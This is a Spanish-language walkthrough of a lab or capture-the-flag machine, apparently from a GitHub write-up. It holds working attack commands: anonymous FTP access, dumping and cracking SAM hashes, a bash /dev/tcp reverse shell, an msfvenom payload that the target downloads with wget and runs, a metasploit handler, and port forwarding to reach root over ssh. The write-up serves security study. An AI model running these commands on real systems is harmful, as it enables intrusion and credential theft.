



Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.

```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 192.168.80.136 -oN escaneo
```


Intentaremos entrar al servicio ftp escribiendo el usuario por defecto de este.

```
ftp 192.168.80.136
user: anonymous
password: (pulsaremos la tecla enter)
```


Seguidamente analizaremos un poco y descargaremos los dos archivos que encontraremos en la carpeta backup para poderlos analizar.

```
get sam.bak
get system.bak
```


Para poder sacar la cuentas del servidor, necesitamos usar la herramienta samdum2 que da el hash de las copias de seguridad.

```
samdump2 system.bak sam.bak
```


Cojemos los hashes y usuarios que nos hadado y los metemos en un archivo txt para romper sus contraseñas. Seguidamente crackearemos las contraseñas con hashcat.

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txtls
```


Recordando que en el escaneo de nmap en el puerto 4200 teniamos una web con shell, entonces la usaremos para conseguir nuestros objetivos. Para ello intentaremos hacer una revershell. Nos pondremos en escucha en un puerto y en la web escribiremos un payload.

```
nc .lnvp 4444
sh -i >& /dev/tcp/192.168.80.129/4444 0>&1
```


Finalmente nos quedará acceder a usuario root. Para ello vamos a ver que binarios tenemos disponibles con acceso a root.

```
find / -perm -u=s -type f 2>/dev/null
```


Al ver que no tenemos resultados, ejecutaremos el script de bash Linpeas. 

```
bash linpeas.sh
```


Vemos que nos da la contraseña de root cifrada.

```
john root-hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


Ya tenemos la password del usuario root, solo nos quedará acceder a este. Para ello generaremos un payload de linux y compartirememos via servidor python, de daremos permisos de ejecución y lo ejecutaremos.

```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.80.119 LPORT=4444 -f elf -o shel.elf
python3 -m http.server 80

wget 192.168.80.129/shel.elf
chmod +x shel.elf
./shel.elf
```


Seguidamente configuraremos nuestro exploit con el framework de metasploit.
```
msfconsole -q
use exploit/multi/handler
set payload linux/x64/meterpreter_reverse_tcp
set lhost 192.168.80.129
set lport 4444
exploit
```



Finalmente haremos un portfordwarding para poder entrar como administrador via ssh. Para ello en el meterpreter escribiremos:
```
portfwd add -l 101 -p 22 -r 127.0.0.1
```


Finalmente entraremos por ssh en la ip local con el puerto seleccionado, deberemos escribir la password de administrador que hemos adquirido anteriormente.

```
ssh root@127.0.0.1 -p 101
password: shadow123
```

